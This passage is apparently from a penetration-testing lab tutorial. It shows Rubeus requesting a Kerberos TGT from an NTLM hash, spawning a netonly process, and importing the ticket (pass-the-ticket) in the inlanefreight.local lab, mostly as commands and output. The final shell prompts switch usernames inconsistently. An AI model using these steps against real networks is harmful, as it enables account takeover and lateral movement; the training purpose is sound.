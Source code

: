   v2.3.2

[*] Action: Ask TGT

[*] Got domain: inlanefreight.local
[*] Using rc4_hmac hash: 3223DS033D176ABAAF6BEAA0AA681400
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\leonvqz'
[*] Using domain controller: 172.20.0.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFsjCCBa6gAwIBBaEDAgEWooIEszCCBK9hgg

  ServiceName              :  krbtgt/inlanefreight.local
  ServiceRealm             :  INLANEFREIGHT.LOCAL
  UserName                 :  leonvqz (NT_PRINCIPAL)
  UserRealm                :  INLANEFREIGHT.LOCAL
...SNIP...
</code></pre>
<p>Next, we need to create a sacrificial process with the option <code>createnetonly</code>.</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\Rubeus.exe createnetonly /program:powershell.exe /show
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : True
[*] Username        : SB09OE04
[*] Domain          : 16GFWBFF
[*] Password        : 5AB6RGSG
[+] Process         : 'powershell.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2088
[+] LUID            : 0xded959c
</code></pre>
<p>The above command will present us a PowerShell window with dummy credentials, we will use it to import the TGT of the account we want to use:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooIEszCCBK9h...SNIP...
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/


[SRV02]: PS C:\Users\helen\Documents&gt;
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents&gt; hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents&gt;